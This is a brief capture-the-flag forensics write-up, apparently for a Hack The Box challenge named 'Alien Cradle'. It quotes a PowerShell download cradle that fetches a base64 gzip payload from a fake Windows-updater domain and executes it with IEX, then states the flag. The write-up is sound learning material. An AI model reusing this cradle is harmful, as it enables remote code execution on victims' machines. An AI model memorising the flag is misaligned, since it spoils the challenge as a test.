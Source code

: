 # forensics - Alien Cradle

We have a powershell script

```powershell
if([System.Security.Principal.WindowsIdentity]::GetCurrent().Name -ne 'secret_HQ\Arth'){exit};$w = New-Object net.webclient;$w.Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;$d = $w.DownloadString('http://windowsliveupdater.com/updates/33' + '96f3bf5a605cc4' + '1bd0d6e229148' + '2a5/2_34122.gzip.b64');$s = New-Object IO.MemoryStream(,[Convert]::FromBase64String($d));$f = 'H' + 'T' + 'B' + '{p0w3rs' + 'h3ll' + '_Cr4d' + 'l3s_c4n_g3t' + '_th' + '3_j0b_d' + '0n3}';IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```

The flag is right there:

### flag: HTB{p0w3rsh3ll_Cr4dl3s_c4n_g3t_th3_j0b_d0n3}
